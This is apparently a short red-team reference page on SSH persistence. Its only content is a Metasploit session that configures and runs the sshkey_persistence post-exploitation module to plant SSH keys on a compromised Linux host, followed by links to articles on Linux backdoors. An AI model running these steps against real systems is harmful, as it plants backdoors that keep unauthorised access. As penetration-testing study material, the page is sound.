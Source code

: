 # Remote Login

## 01 - SSH

### 1.1 - Unix Shell

### 1.2 - Metasploit

```
msf > use post/linux/manage/sshkey_persistence

msf post(linux/manage/sshkey_persistence) > options

Module options (post/linux/manage/sshkey_persistence):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   CREATESSHFOLDER  false                 yes       If no .ssh folder is found, create it for a user
   PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
   SESSION                                yes       The session to run this module on
   SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
   USERNAME                               no        User to add SSH key to (Default: all users on box)

msf post(linux/manage/sshkey_persistence) > set createsshfolder <true | false>

msf post(linux/manage/sshkey_persistence) > set pubkey [/path/to/file.pub]

msf post(linux/manage/sshkey_persistence) > set sshd_config </path/to/sshd_config>

msf post(linux/manage/sshkey_persistence) > set username <username>

msf post(linux/manage/sshkey_persistence) > set session <session_id>

msf post(linux/manage/sshkey_persistence) > run
```

## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)